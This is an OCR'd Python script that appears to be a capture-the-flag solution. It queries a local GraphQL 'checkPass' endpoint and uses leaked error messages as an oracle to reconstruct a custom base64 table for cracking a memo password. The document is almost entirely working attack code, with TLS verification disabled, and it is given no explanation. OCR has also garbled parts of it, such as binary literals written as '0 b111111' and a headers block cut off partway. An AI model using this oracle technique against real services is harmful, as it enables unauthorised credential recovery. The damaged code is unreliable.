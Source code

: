 ```
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
}
my_cookie = {}
def http_req(url, data = None, method = 'GET', params = None, json =
        False, cookies = None, proxies = MY_PROXY):
    if json:
        method = 'POST'
        json = data
        data = None
    if method == 'GET':
        params = data
        data = None
    r = requests.request(method, url, headers = headers, verify = False,
        json = json, params = params, data = data, cookies = cookies, proxies = MY_PROXY)
    return r

def graph_req(url, body):
    body = {
        'query': body
    }
    r = http_req(url, data = body, json = True)
    return r.json()

url = "http://localhost:8800/graphql"

def base64_decode(base_table):
    '''
    base64的6位索引转换为字符串
    '''
    bases = ''.join(base_table)
    bytes_len = int(len(bases) / 8)
    byte_table = [bases[i * 8: (i + 1) * 8]
        for i in range(bytes_len)
    ]
    # bases2 = ''.join(byte_table)
    # if bases != bases2: 
    #print('error...')
    char_table = [int(b, 2) for b in byte_table]
    return char_table

def decode_one(tbl, idx):
    tbl = ['{0:06b}'.format(i) for i in tbl]
    rtbl = base64_decode(tbl)
    s = ''.join([chr(i) for i in rtbl])
    r = graph_req(url, '''
            query {
            checkPass(memoId: 2,
                password: "%s")
        }
        ''' % s)
    message = r['errors'][0]['message']
    print(idx, message)
    valid_code = message.split("'")[1][3]
    return valid_code# 获取base64编码表

base_tbl = []

for c in range(64):
    tbl = [0 b111111, 0 b111111, 0 b011011, c]
    valid_code = decode_one(tbl, c)
    base_tbl.append(valid_code)

```